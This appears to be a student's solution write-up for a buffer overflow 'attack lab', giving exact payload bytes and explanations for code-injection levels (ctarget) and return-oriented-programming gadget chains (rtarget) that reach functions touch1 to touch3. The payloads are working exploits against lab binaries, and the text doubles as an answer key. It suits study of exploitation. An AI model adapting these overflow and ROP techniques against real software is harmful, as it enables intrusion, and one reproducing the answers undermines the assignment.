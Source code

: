 # ctarget

## Level 1
### Bytes to be entered
00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00 

C0 17 40 00 00 00 00 00  /* address of touch1() */

### What I did with the string
The size of the stack frame allocated by getbuf() is 0x28 bytes, so the return address is stored in 0x28(%rsp) (before the stack frame is deallocated). I just have to write at that address the starting address of the function touch1(), which is 0x4017c0. 


## Level 2
### Bytes to be entered
bf fa 97 b9 59 68 ec 17 

40 00 c3 00 00 00 00 00 

00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00 

78 dc 61 55

### What I did with the string
The injected code is stored in (%rsp) (before deallocation), so we just need to return to (%rsp) (before deallocation) after executing the body of getbuf().
That means, starting at the 41st byte, the bytes should be the value of %rsp, which is %5561dc78. Then, starting at the 1st byte, we need to store the injected machine code. The assembly code is stored in level2.s and the disassembled version is in level2.d. I have left a comment for each line of code in level2.s.


## Level 3
### Bytes to be entered
48 c7 c7 a8 dc 61 55 68 

fa 18 40 00 c3 00 00 00 

00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00 

78 dc 61 55 00 00 00 00 

35 39 62 39 39 37 66 61

### What I did with the string
The injected code can still be stored at (%rsp) (before deallocation), but the string cannot be stored in the stack frame for getbuf(). Because when switching control to injected code, the stack frame for getbuf() is already deallocated. The touch3(), hex(), and injected code will push the stack 5 times in total, completely overwriting the original stack frame. Therefore, we can put the string at 0x8(%rsp). 
Note that the string (cookie) should be given in hex representation.

# rtarget

## Level 2
### Bytes to be entered
00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

ab 19 40 00 00 00 00 00  /* pop stack to %rax */

fa 97 b9 59 00 00 00 00  /* cookie */

a3 19 40 00 00 00 00 00  /* mov %eax,%edi */

ec 17 40 00 00 00 00 00  /* address of touch2() */

### What I did with the string
Ideally, we should move cookie directly into %rdi, but we cannot do that as we need to execute existing instructions that end with c3 (ret). So the thinking is to put the value on the stack and pop it to a register, which is the only way to insert a custom value of your choice into the code. I cannot find an instruction that pops the stack to %rdi, but there's one that pops to %rax. So we can pop the cookie to %rax first, and then move %eax to %edi. After that, the PC will jump to the address of touch2(). The catch is to remember that after each ret instruction, %rsp += 8.

## Level 3
### Bytes to be entered
00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

06 1a 40 00 00 00 00 00  /* mov %rsp,%rax */

c5 19 40 00 00 00 00 00  /* mov %rax,%rdi */

ab 19 40 00 00 00 00 00  /* pop stack to %rax */

48 00 00 00 00 00 00 00  /* bias */

dd 19 40 00 00 00 00 00  /* movl %eax,%edx */

34 1a 40 00 00 00 00 00  /* movl %edx,%ecx */

27 1a 40 00 00 00 00 00  /* movl %ecx,%esi */

d6 19 40 00 00 00 00 00  /* add %rdi,%rsi to %rax */

c5 19 40 00 00 00 00 00  /* mov %rax,%rdi */

fa 18 40 00 00 00 00 00  /* address of touch3() */

35 39 62 39 39 37 66 61  /* cookie */

00

### What I did with the string
The difference from level 2 is that this time we must pass the address of the string to %rdi, which is only obtainable through a bias from %rsp. That is to say, we need to add a specific number to %rsp to obtain the address of the cookie, pass it to %rdi, and call touch3(). There's a function called add_xy() in the gadget farm, which we can use to perform the addition. So all we need to do now is to put %rsp and the bias in %rdi and %rsi. 
We've done the former in level2, but there's no instruction to put a value in %rsi. However, there's one that moves %ecx to %esi. There's also one that moves %edx to %ecx, and one that moves %eax to %edx. Then these 3 instructions tackles the problem of moving the bias to %rsi.  
